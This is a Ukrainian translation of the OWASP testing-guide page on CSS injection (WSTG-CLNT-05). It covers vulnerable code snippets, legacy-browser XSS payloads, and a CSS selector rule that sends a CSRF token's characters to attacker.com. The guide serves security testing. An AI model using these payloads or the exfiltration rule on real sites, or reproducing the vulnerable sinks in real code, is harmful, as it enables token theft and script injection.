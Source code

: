 # Тестування на CSS Ін'єкцію

## ID
**WSTG-CLNT-05**

## Анотація

Вразливість CSS ін'єкції виникає, коли зловмисник може впровадити довільний CSS-код у контекст довіреного веб-сайту, що відображається в браузері жертви. Наслідки такої вразливості залежать від впровадженого CSS-коду. Вона може призвести до кроссайтового скриптингу (XSS) або викрадення даних.

Ця вразливість виникає, коли застосунок дозволяє користувацькому CSS втручатися у легітимні таблиці стилів застосунку. Впровадження коду в CSS-контекст може надати атакувальнику можливість виконувати JavaScript за певних умов або витягувати конфіденційні дані, використовуючи селектори CSS та функції, здатні генерувати HTTP-запити. Загалом, дозвіл користувачам налаштовувати сторінки через надання власних CSS-файлів є значним ризиком.

## Приклад вразливого коду
Наведений нижче JavaScript-код демонструє можливий вразливий сценарій, у якому атакувальник може контролювати `location.hash` (джерело), що передається у функцію `cssText` (злив даних). 

```html
<a id="a1">Click me</a>
<script>
    if (location.hash.slice(1)) {
        document.getElementById("a1").style.cssText = "color: " + location.hash.slice(1);
    }
</script>
```

Зловмисник може націлитися на жертву, попросивши її відвідати такі URL-адреси:

- `www.victim.com/#red;-o-link:'<javascript:alert(1)>';-o-link-source:current;` (Opera [8,12])
- `www.victim.com/#red;-:expression(alert(URL=1));` (IE 7/8)

Така ж уразливість може з’явитися у випадку відображеного XSS, наприклад, у такому коді PHP:

```css
<style>
p {
    color: <?php echo $_GET['color']; ?>;
    text-align: center;
}
</style>
```

Подальші сценарії атак передбачають можливість витягувати дані за допомогою чистих правил CSS. Такі атаки можуть здійснюватися через селектори CSS, що призводить до викрадання даних, наприклад, токенів CSRF.

Ось приклад коду, який намагається вибрати вхід із `назвою`, що відповідає `csrf_token`, і `значенням`, що починається з `a`. Використовуючи атаку грубої сили для визначення значення атрибута, можна здійснити атаку, яка надсилає значення в домен зловмисника, наприклад, намагаючись встановити фонове зображення для вибраного вхідного елемента.

```css
<style>
input[name=csrf_token][value=^a] {
    background-image: url(http://attacker.com/log?a);
}
</style>
```

Інші атаки з використанням запитуваного вмісту, наприклад CSS, висвітлюються в [виступі Маріо Хайдеріха «Got Your Nose» на YouTube](https://www.youtube.com/watch?v=FIQvAaZj_HA).

### Цілі тестування

- Визначте точки впровадження CSS
- Оцініть вплив ін'єкції

### Як тестувати

Потрібно проаналізувати код, щоб визначити, чи дозволено користувачеві вставляти вміст у контекст CSS. Зокрема, слід перевірити спосіб, у який веб-сайт повертає правила CSS на основі введених даних. 

Нижче наведено базовий приклад:
```html
<a id="a1">Click me</a>
<b>Hi</b>
<script>
    $("a").click(function(){
        $("b").attr("style","color: " + location.hash.slice(1));
    });
</script>
```

Наведений вище код містить вихідний `location.hash`, керований зловмисником, який можна вставити безпосередньо в атрибут `style` елемента HTML. Як згадувалося вище, це може призвести до різних результатів залежно від використовуваного браузера та наданого корисного навантаження.

На наступних сторінках наведено приклади вразливостей впровадження CSS:

- [Зломщик паролів через CSS і HTML5](https://html5sec.org/invalid/?length=25)
- [Читання атрибутів CSS](http://eaea.sirdarckcat.net/cssar/v2/)
- [Атаки на основі JavaScript із використанням `CSSStyleDeclaration` із неекранованим введенням](https://github.com/wisec/domxsswiki/wiki/CSS-Text-sink)

Додаткові ресурси OWASP щодо запобігання ін’єкціям CSS див. у шпаргалці [Securing Cascading Style Sheets](https://cheatsheetseries.owasp.org/cheatsheets/Securing_Cascading_Style_Sheets_Cheat_Sheet.html).
